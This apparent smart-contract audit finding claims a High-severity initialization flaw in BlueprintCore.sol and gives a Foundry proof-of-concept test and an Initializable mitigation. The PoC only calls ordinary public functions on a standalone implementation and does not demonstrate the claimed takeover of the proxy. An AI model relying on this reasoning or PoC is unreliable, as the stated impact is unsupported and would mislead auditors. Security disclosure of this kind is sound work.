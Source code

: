 Energetic Rainbow Otter

High

# Lack of Initialization Protection in BlueprintCore

### Summary

The absence of initialization protection in BlueprintCore.sol will cause a complete loss of control for the protocol as an attacker will initialize the implementation contract directly.

### Root Cause

In BlueprintCore.sol, there is no constructor or initializer function to prevent the initialization of the implementation contract, which is inherited by BlueprintV5 using the UUPS upgradeable pattern.

### Internal Pre-conditions

The BlueprintCore implementation contract needs to be deployed standalone (not behind a proxy).

### External Pre-conditions

None required.

### Attack Path

- Attacker deploys the BlueprintCore contract directly or interacts with an already deployed implementation contract.
- Attacker calls an inherited initializer (e.g., from EIP712Upgradeable) or a public state-modifying function (e.g., setProjectId) to set critical state variables (e.g., projects, latestProjectID) to malicious values.
- Attacker manipulates the contract state before the legitimate proxy (BlueprintV5) is deployed, effectively taking control of the system.

### Impact

- The protocol suffers a complete loss of control over its state, as the attacker can set arbitrary values in mappings and variables, disrupting all subsequent operations.

### PoC

```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import "forge-std/Test.sol";
import "../src//BlueprintCore.sol";

contract BlueprintCoreExploitTest is Test {
    BlueprintCore blueprintCore;
    address attacker = address(0x1);

    function setUp() public {
        // Deploy the implementation contract directly (not behind a proxy)
        blueprintCore = new BlueprintCore();
        vm.deal(attacker, 1 ether);
    }

    function test_InitializeExploit() public {
        vm.startPrank(attacker);
        // Attacker creates a project directly on the implementation contract
        bytes32 projectId = blueprintCore.createProjectID();
        
        // Verify attacker has control over the project
        bytes32 latestProjectId = blueprintCore.getLatestUserProjectID(attacker);
        assertEq(latestProjectId, projectId, "Attacker should own the project ID");

        // Simulate setting additional state to disrupt future proxy deployment
        blueprintCore.createProjectIDAndProposalRequest(projectId, "param", "url");
        bytes32 requestId = blueprintCore.getLatestProposalRequestID(attacker);
        assertTrue(requestId != bytes32(0), "Attacker should have a proposal request ID");

        vm.stopPrank();
    }
}
```

### Mitigation

- use an initializer function with Initializable:

```solidity

import "@openzeppelin/contracts-upgradeable/proxy/utils/Initializable.sol";
contract BlueprintCore is Initializable, EIP712, Payment {
    function initialize() public initializer {
        // Initialization logic
    }
}
```